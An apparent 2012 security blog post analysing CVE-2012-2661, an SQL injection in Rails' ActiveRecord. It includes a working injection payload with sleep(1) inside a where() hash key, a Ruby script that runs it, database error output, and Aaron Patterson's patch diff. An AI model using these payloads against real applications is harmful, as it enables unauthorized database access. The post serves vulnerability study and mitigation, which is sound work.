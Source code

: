 ```yaml
---
layout: post
title: "CVE-2012-2661: SqlInjection on Rails"
date: 2012-06-04 08:22
comments: true
published: true
featured: false
tags: breakers sql-injection rails ruby-on-rails activerecord cve-2012-2661 ruby patch orm mysql postgresql
excerpt: A SQL Injection was discovered in ActiveRecord Rails' default ORM framework. Let's talk about the vulnerability, the patch and other mitigation stuff.
hn: http://news.ycombinator.com/item?id=4078786
rd: http://redd.it/uppb6
---
```


SQL Injection is the most dangerous risk a web application is exposed to. If an
input is not fully sanitized before used to build a SQL query it is possible to
subvert the query itself injecting pieces of arbitrary SQL code.

Results can vary from unauthorized data access to system compromize.

<!-- more -->

ActiveRecord is the default [ORM](http://en.wikipedia.org/wiki/Object-relational_mapping) for
[Rails](http://ruby-on-rails.org) web application framework and it suffered
from a SQL Injection form patched last [31 May](https://groups.google.com/group/rubyonrails-security/browse_thread/thread/7546a238e1962f59?pli=1).


## The attack

You're using an
[ActiveRecport](https://github.com/rails/rails/tree/master/activerecord) object
and you're taking something from the view layer passing to your model fetching
data.

When you try to pass an [Hash](http://www.ruby-doc.org/core/Hash.html) object
as field to _where_ method as example, injecting some SQL code into it,
ActiveRecord fails to build the SQL Query and the injection occurs as explained
in this [blog post](http://blog.pentesterlab.com/2012/06/cve-2012-2661-exploitation-write-up.html).

``` ruby the string exploiting CVE-2012-2661
User.where(:password => {'test where (select 0) or sleep(1); -- .user' => {'id' => '1234'}}).all
``` 

### Mysql

It seems that all the stuff before the leading '.' in the Hash key value is
taken and injected as _WHERE_ clause in a SHOW TABLE statement when used with
MySQL as backend RDBMS.

``` ruby A very lame boilerplate exploiting attempt 
#!/usr/bin/env ruby
require 'active_record'
ActiveRecord::Base.establish_connection(
      :adapter  => "mysql2",
      :host     => "localhost",
      :username => "thesp0nge",
      :password => "",
      :database => "test"
    )


class User < ActiveRecord::Base
end

puts "MySQL2"

begin
User.where(:password => {'test where (select 0) or sleep(1); -- .user' => {'id' => '1234'}}).all
rescue Exception => e
  puts e.message
end
``` 

This code resulted in the following error printed with some delay telling the
sleep() has been called:

``` 
$ ./cve_2012_2661.rb
MySQL2
Mysql2::Error: Unknown column 'test where (select 0) or sleep(1); -- .user.id' in 'where clause': SELECT `users`.* FROM `users`  WHERE `test where (select 0) or sleep(1); -- `.`user`.`id` = '1234'
```

Executing this code mangling the database name, test, with something the user
thesp0nge is not allowed to access, let's say the mysql database, output error
indicates where the injection really occurs:

```
$ ./cve_2012_2661.rb
MySQL2
Mysql2::Error: Access denied for user ''@'localhost' to database 'mysql': SHOW TABLES IN mysql where (select 0) or sleep(1); --  LIKE 'user'
```

From the error message it seems either that ActiveRecord didn't try to
authenticate with user thesp0nge, leaving the field value empty. I tried a bit
to exploit either the attack vector in order to put an arbitrary value as
connection username but I failed, maybe I'll return on this another time.

### PostgreSQL

The same attack vector applied on a postgresql driven database connection
resulted in a completely different error message:

``` 
$ ./cve_2012_2661.rb
PostgreSQL
PG::Error: ERROR:  schema "test where (select 0) or sleep(1) ; -- " does not exist
: SELECT "users".* FROM "users"  WHERE "test where (select 0) or sleep(1) ; -- "."user"."id" = '1234'
``` 

Using another RDBMS it seems that attack payload was injected straight forward
in the WHERE clause for the SELECT statement.

Crafting more the attack payload I found something intersting, the error
message changed significantly. Fetching the users removing the dot from the
hash key value, resulted the adapter to think the key was a table name.

```
User.where(:password => {'1=0 or sleep(1); -- user' => {'id' => '1234'}}).all
``` 

``` 
 ./cvs_2012_2661.rb
PostgreSQL
PG::Error: ERROR:  missing FROM-clause entry for table "1=0 or sleep(1); -- user"
LINE 1: SELECT "users".* FROM "users"  WHERE "1=0 or sleep(1); -- us...
                                             ^
: SELECT "users".* FROM "users"  WHERE "1=0 or sleep(1); -- user"."id" = '1234'
``` 

However it seems that PostgreSQL adapter was smart enough to double any _"_
character so I was not able to close the _WHERE_ part of the SELECT.  

## The patch

[Aaron Patterson](http://twitter.com/tenderlove) submitted a patch for Rails
3.0, 3.1 and 3.2 latest Friday. Files involved in the patch are not the
adapters but the code building the SQL predicate from the Hash object.

``` ruby the patch for rails 3.2
From 71f7917c553cdc9a0ee49e87af0efb7429759718 Mon Sep 17 00:00:00 2001
From: Aaron Patterson <aaron.patterson@gmail.com>
Date: Wed, 30 May 2012 15:04:11 -0700
Subject: [PATCH] predicate builder should not recurse for determining where
 columns. Thanks to Ben Murphy for reporting this

CVE-2012-2661
---
 .../associations/association_scope.rb              |   17 ++++++++++++++++-
 .../active_record/relation/predicate_builder.rb    |    6 +++---
 activerecord/test/cases/relation/where_test.rb     |   19 +++++++++++++++++++
 3 files changed, 38 insertions(+), 4 deletions(-)
 create mode 100644 activerecord/test/cases/relation/where_test.rb

diff --git a/activerecord/lib/active_record/associations/association_scope.rb b/activerecord/lib/active_record/associations/association_scope.rb
index b3819e3..f9cffa4 100644
--- a/activerecord/lib/active_record/associations/association_scope.rb
+++ b/activerecord/lib/active_record/associations/association_scope.rb
@@ -75,7 +75,7 @@ module ActiveRecord
 
             conditions.each do |condition|
               if options[:through] && condition.is_a?(Hash)
-                condition = { table.name => condition }
+                condition = disambiguate_condition(table, condition)
               end
 
               scope = scope.where(interpolate(condition))
@@ -114,6 +114,21 @@ module ActiveRecord
         end
       end
 
+      def disambiguate_condition(table, condition)
+        if condition.is_a?(Hash)
+          Hash[
+            condition.map do |k, v|
+              if v.is_a?(Hash)
+                [k, v]
+              else
+                [table.table_alias || table.name, { k => v }]
+              end
+            end
+          ]
+        else
+          condition
+        end
+      end
     end
   end
 end
diff --git a/activerecord/lib/active_record/relation/predicate_builder.rb b/activerecord/lib/active_record/relation/predicate_builder.rb
index a789f48..9c84d8a 100644
--- a/activerecord/lib/active_record/relation/predicate_builder.rb
+++ b/activerecord/lib/active_record/relation/predicate_builder.rb
@@ -1,16 +1,16 @@
 module ActiveRecord
   class PredicateBuilder # :nodoc:
-    def self.build_from_hash(engine, attributes, default_table)
+    def self.build_from_hash(engine, attributes, default_table, check_column = true)
       predicates = attributes.map do |column, value|
         table = default_table
 
         if value.is_a?(Hash)
           table = Arel::Table.new(column, engine)
-          build_from_hash(engine, value, table)
+          build_from_hash(engine, value, table, false)
         else
           column = column.to_s
 
-          if column.include?('.')
+          if check_column && column.include?('.')
             table_name, column = column.split('.', 2)
             table = Arel::Table.new(table_name, engine)
           end
diff --git a/activerecord/test/cases/relation/where_test.rb b/activerecord/test/cases/relation/where_test.rb
new file mode 100644
index 0000000..90c690e
--- /dev/null
+++ b/activerecord/test/cases/relation/where_test.rb
@@ -0,0 +1,19 @@
+require "cases/helper"
+require 'models/post'
+
+module ActiveRecord
+  class WhereTest < ActiveRecord::TestCase
+    fixtures :posts
+
+    def test_where_error
+      assert_raises(ActiveRecord::StatementInvalid) do
+        Post.where(:id => { 'posts.author_id' => 10 }).first
+      end
+    end
+
+    def test_where_with_table_name
+      post = Post.first
+      assert_equal post, Post.where(:posts => { 'id' => post.id }).first
+    end
+  end
+end
-- 
1.7.5.4
``` 

## Some thoughts

The real problem I see here is that patch is a real quick and dirty fix to
mitigate this, that doesn't mean a positive approach has been done to make the
ActiveRecord::Base a safe place to be.

I don't even know if a real and dangerous exploit can be written for this
injection but I do think a sort of input validation must be applied in a more
structured way, maybe using [Owasp Esapi for Ruby](https://github.com/thesp0nge/owasp-esapi-ruby).

However Rails is still one of my web framework of choice with great hackers
working on it.

It's interesting now, looking how other ORMs react to unsolicited parameters.
